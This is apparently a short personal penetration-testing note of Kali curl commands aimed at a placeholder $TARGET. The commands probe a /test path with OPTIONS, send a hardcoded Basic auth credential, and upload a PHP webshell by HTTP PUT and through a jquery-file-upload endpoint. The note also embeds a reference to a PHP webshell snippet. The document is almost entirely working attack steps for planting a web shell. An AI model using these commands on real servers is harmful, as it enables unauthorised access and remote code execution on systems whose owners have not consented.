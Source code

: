 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

![[0._PHP_Webshells#wwolf]]

```bash - kali
curl --upload-file webshell.php -v --url http://$TARGET/test/webshell.php -0 --http1.0 -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

```bash - kali
curl -F "files=@webshell.php" http://$TARGET/jquery-file-upload/server/php/
```

